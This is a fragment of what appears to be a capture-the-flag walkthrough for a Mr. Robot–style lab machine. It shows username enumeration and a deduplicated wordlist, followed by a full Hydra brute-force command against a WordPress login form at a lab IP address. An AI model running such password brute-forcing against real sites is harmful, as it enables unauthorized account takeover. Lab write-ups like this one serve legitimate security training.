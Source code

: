 <img src="./img/Screenshot 2024-08-11 202822.png"></img>

Now we got length for username
But we similar length for all username except the the **Elliot**
Now we found the username .

Lets find the password for the elliot username
first we have to sort the fsocity.dic file by using follwing command.
```
sort /home/kali/Downloads/fosocity.dic| uniq >elliotpw.txt
```
now we have unique words in this file compared to fsocity.dic
Lets perform brute force attack for password
here i will use the tool called **Hydra**
```
sudo hydra -vV -l elliot -P elliot_password.txt 192.168.0.6 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is Incorect'

```
Result:
<img src="./img/Pasted image 20240811211822.png"></img>
 we found 16 vaild password
 Now we have perform **Wpscan** to get correct combination.